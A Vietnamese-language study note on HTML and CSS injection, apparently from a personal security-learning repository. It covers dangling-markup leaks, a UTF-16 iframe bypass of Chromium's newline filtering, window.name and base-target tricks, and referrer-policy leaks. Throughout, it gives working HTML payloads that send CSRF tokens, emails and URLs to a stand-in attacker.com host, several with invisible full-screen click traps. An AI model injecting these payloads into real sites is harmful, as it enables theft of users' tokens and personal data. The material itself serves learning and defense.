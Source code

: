 # HTML Injection 
## Dangling Markup 
- **Dangling Markup** xảy ra khi website chèn nội dung do người dùng cung cấp vào trong một thuộc tính HTML nhưng quên đóng dấu nháy hoặc thẻ.

=>  **Kết quả:** trình duyệt tiếp tục đọc phần HTML phía sau như là một phần của giá trị thuộc tính đó.
- Payload `<img src='//attacker-website.com?`
- HTMLSource trở thành 
```html
<img src='https://attacker.com?</div>
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
=> Kết quả là trình duyệt sẽ gửi một request hình ảnh tới URL sau (đã được mã hóa URL) : `https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI
`

=> Lấy được **CSRF**

- Tuy nhiên đối với Chromium nõ sẽ loại bỏ các url có kí tự xuống dòng (newline) ngược lại firefox thì không bỏ 
- Biện pháp 
    - dùng `<textarea>` vì nó chỉ bị đóng bới `</textarea>` hoặc **cuối tài liệu** 
    - Tạo 1 nút lớn để người dùng nhập vào và sẽ leak được data
- Payload
```html ==
<form action="https://attacker.com">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
<p>Your email: victim@example.com</p>
```
- Tuy nhiên với Chromium thì ngược lại 
    - ![alt text](image.png)
### Bypass newline detection
- Vậy làm sao để bypass được việc loại bỏ newline???
#### UTF-16 iframe/stylesheet content
- Nếu `<iframe>` được phép ghép với `src=data:` ta có thể  bypass nhờ `charset UTF-16` 

```html
Encoded prefix
<style>*{background-image: url(https://attacker.com?
```
[Encode as UTF-16](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')URL_Encode(true)&input=PHN0eWxlPip7YmFja2dyb3VuZC1pbWFnZTogdXJsKGh0dHBzOi8vYXR0YWNrZXIuY29tPw) 

▼
```html
Payload
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
```
▼

```html 
HTML Source
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
- Nội dung bên trong của `iframe` sau khi `inject`
- ![alt text](image-1.png)

#### Iframe name attribute
- Có cách khác nữa 
- Khi bạn có thể tạo `iframe` mà nguồn source là remote ; thuộc tính `name` của iframe có thể rò rỉ và được atk đọc thông wa `window.name` 
```html
Html Source
<iframe src="https://attacker.com" name='
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
▼
Ở phía console của atker 
```html
> window.name
'\n<p>Your email: victim@example.com</p>\n<footer>That'

```
=> `window.name` có thể chứa xuống dòng ngay cả trên Chromium, vì nó không phải **URL** hay **target**.
- Nếu CSP không cho phép bất kì nguồn nào bên ngoài và ta có thể nhúng `Iframe` => Chiếm luôn wuyền `Iframe` 

```html
HtmlSource
<object data="about:blank" name='
<!-- payload chứa dữ liệu nhạy cảm ở đây -->
```
```html
HtmlSource
<iframe id="iframe" src="https://target.tld/dangling-object"></iframe>
<script>
  iframe.onload = () => {
    const object = iframe.contentWindow[0];
    object.location = "about:blank";  // Navigate to our same-origin

    const interval = setInterval(() => {
      object.origin;  // When it becomes same-origin
      clearInterval(interval);
      alert(object.name);  // Leak its name (kept after navigation)
    })
  }
</script>
```
- Cách khác kết hợp `<base>`  với `target` 
- Khi `base@target` bị `clobber`, mọi link trên trang (kể cả link do attacker chèn) khi người dùng click sẽ được mở với `window.name` = giá trị của `base@target` 
```html
<!-- che phủ toàn màn hình để dụ click -->
<a href="https://attacker.com/leak" style="position:fixed;top:0;left:0;width:100%;height:100%"></a>

<!-- chèn base target chứa newline / payload -->
<base target='
```

### Leak via Referer
- Chúng ta sẽ thực hiện leak với `textarea` ngay cả khi CSP không cho host bên ngoài 
- Cái này chỉ có thể thực hiện trên `Chromium` và yêu cầu có 1 `</textarea>` ngay sau 
- Inject đoạn đầu tiên : 
    - `<img src="https://attacker.com" referrerpolicy="unsafe-url">` 
- Đoạn thứ 2 
```html
<form action="/referer-leak" method="GET">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- `action=` trỏ tới nơi chứa injection referer thứ hai
- Khi user click (thậm chí vô ý do button phủ full-screen), form submit và nội dung `<textarea>` bị đưa vào `?leak=`
- Tuy nhiên nếu không có chỗ lưu `Referer leak` . Ta cần phải dùng Payload khác 
```html
<form action="" method="GET">
<input type="hidden" name="html" value="<img src=https://attacker.com referrerpolicy=unsafe-url>">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- Url sẽ load như sau `https://target.com/vulnerable?html=%3Cimg+src%3Dhttps%3A%2F%2Fattacker.com+referrerpolicy%3Dunsafe-url%3E&leak=%3Cp%3EYour+email%3A+victim%40example.com%3C%2Fp%3E%0D%0A%3Cdiv+class%3D%22write-note%22%3E%0D%0A++%3Ctextarea%3E`

## CSS Injection
### Redirect 
- Dùng `<meta>` (thẻ không bị chặn bới CSP) để chuyển hướng `user`
```html
<meta http-equiv="refresh" content="0; url=https://example.com">
```
### Referer
- Thay đổi chính sách referrer `<meta name="referrer" content="unsafe-url">`
```html
Redirecting response

HTTP/1.1 200 OK
Content-Security-Policy: default-src 'none'
Content-Type: text/html

<meta name="referrer" content="unsafe-url">
<meta http-equiv="Refresh" content="0,url=https://example.com">

```
- Điều thú vị là thẻ `<meta>` áp dụng cho toàn bộ trang, thậm chí khi sử dụng `DOMParser.parseFromString()` 
- Điều đó có nghĩa là các bộ lọc  `sanitizer` phía `client` dùng hàm `parse` này có thể vô tình áp dụng chính sách `referrer` trước khi nội dung được `saniti` hóa!
- Điều này tạo ra một cách rất đơn giản để làm rò rỉ URL hiện tại bằng DOMPurify: 
```html
<meta name="referrer" content="unsafe-url">
<!-- Dù thẻ meta trên có thể bị DOMPurify saniti hóa đi,
    nó vẫn có thể đã áp dụng chính sách referrer khi parsing,
    khiến tag ảnh còn lại gửi toàn bộ URL tới attacker -->
<img src="https://attacker.com">

```

#### Attribute Injection 
- Các phần tử riêng lẻ cũng có thể bị thay đổi bằng thuộc tính `referrerpolicy=` 
```html
<img src="http://attacker.com" referrerpolicy="unsafe-url">
```
- Thẻ `<meta>` và cách dùng `referrerpolicy=` không hoạt động trên Firefox
- Nếu CSP chặn kết nối từ site nạn nhân đến server của attacker, bạn có thể lợi dụng `<iframe>` với `srcdoc=` hoặc `src=data:`.  
    - tự thực hiện request,
    - đọc được `document.referrer`
```html
<!-- Nếu bạn inject được iframe này thì đã cùng origin với parent rồi -->
<iframe srcdoc="<script>alert(document.referrer)</script>" referrerpolicy="unsafe-url"></iframe>

<!-- Dù data: thường có origin là 'null', nó vẫn có thể đọc referrer -->
<iframe src="data:text/html,<script>alert(document.referrer)</script>" referrerpolicy="unsafe-url"></iframe>

```
#### Link response header with preload (Chrome < 136)


